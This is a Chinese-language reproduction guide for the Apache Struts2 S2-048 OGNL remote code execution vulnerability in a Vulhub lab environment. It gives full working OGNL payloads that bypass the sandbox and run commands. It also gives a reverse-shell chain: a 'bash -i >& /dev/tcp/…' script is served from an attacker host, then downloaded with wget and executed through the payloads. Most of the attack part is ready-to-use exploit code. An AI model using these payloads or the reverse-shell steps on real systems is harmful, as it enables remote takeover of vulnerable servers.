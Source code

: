 # Struts2 S2-048 远程代码执行漏洞

## 漏洞描述

漏洞详情:

- http://struts.apache.org/docs/s2-048.html
- http://bobao.360.cn/learning/detail/4078.html
- [http://xxlegend.com/2017/07/08/S2-048%20%E5%8A%A8%E6%80%81%E5%88%86%E6%9E%90/](http://xxlegend.com/2017/07/08/S2-048 动态分析/)

## 影响版本

影响版本: 2.0.0 - 2.3.32

## 环境搭建

Vulhub执行以下命令启动s2-048测试环境：

```
docker-compose build
docker-compose up -d
```

环境是直接下载的struts-2.3.32的showcase，部署在tomcat-8.5下。环境启动后，访问`http://your-ip:8080/showcase/`即可查看到struts2的测试页面。

## 漏洞复现

访问Integration/Struts 1 Integration：

![image-20220302112924516](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021129614.png)

触发OGNL表达式的位置是`Gangster Name`这个表单。

输入`${233*233}`即可查看执行结果（剩下两个表单随意填写）：

![image-20220302113012978](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021130080.png)

借用S2-045的沙盒绕过方法改了一个POC。将如下POC填入表单`Gengster Name`中，提交即可直接回显命令执行的结果：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
```

![image-20220302113039046](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021130143.png)

当然，也可以直接用s2-045的POC（需要在Burp下进行测试）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

![image-20220302113241603](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021132734.png)

### 反弹shell

使用s2-045的POC进行反弹shell。

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为（还需要进行URL编码）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='wget 192.168.174.128/shell.sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

![image-20220302113326283](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021133401.png)

执行shell.sh文件的命令为：

```
bash shell.sh
```

执行shell.sh文件的Payload为（还需要进行URL编码）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='bash shell.sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

成功接收反弹shell：

![image-20220302113402853](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021134938.png)